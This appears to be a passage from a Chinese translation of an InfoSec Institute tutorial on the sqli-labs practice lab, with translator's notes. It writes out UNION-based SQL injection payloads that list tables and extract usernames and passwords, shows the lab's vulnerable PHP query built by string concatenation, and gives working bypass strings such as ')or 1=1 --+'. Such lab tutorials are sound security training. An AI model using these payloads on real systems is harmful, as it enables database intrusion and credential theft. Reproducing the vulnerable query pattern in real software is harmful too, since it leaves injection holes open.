 *start*

这里原文作者可能本意的查询语句是如下这个：

`?id='') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security’ –-+`

现在我们可以从屏幕中看到第一个表名email。

*end*

我们可以从结果中看到所有的表。

![33.png](./img/33.png)

我们合并多个不同的列，并下载下来。

`?id=1' union select 1,group_concat(username),group_concat(password) from users –-+`

**译者注：**

*start*

这里原文作者可能本意的查询语句是如下这个：

`?id=' union select 1,group_concat(username),group_concat(password) from users –-+`

*end*

结果如图所示。

![35.jpg](./img/35.jpg)

**译者注：**

上面三个联合查询，id后面的符号，要根据你所在的那个实验里面，根据作者的截图，它是在第一个实验里，所以是使用的单引号，如果是在基于双引号的查询里，需要使用双引号。

另外三个联合查询作者给的注入语句，id后都有一个1，这时候是显示不出来你想要的，因为这时候注入的查询语句会返回两行，而只是显示第一行。

源代码中sql查询语句，31,31行：

`$id = '"' . $id . '"';`

`$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";`

可以成功注入的有：

`")or ("1")=("1`

`")or 1=1 --+`

via:[infosecinstitute](http://resources.infosecinstitute.com/tutorial-on-sqli-labs/)
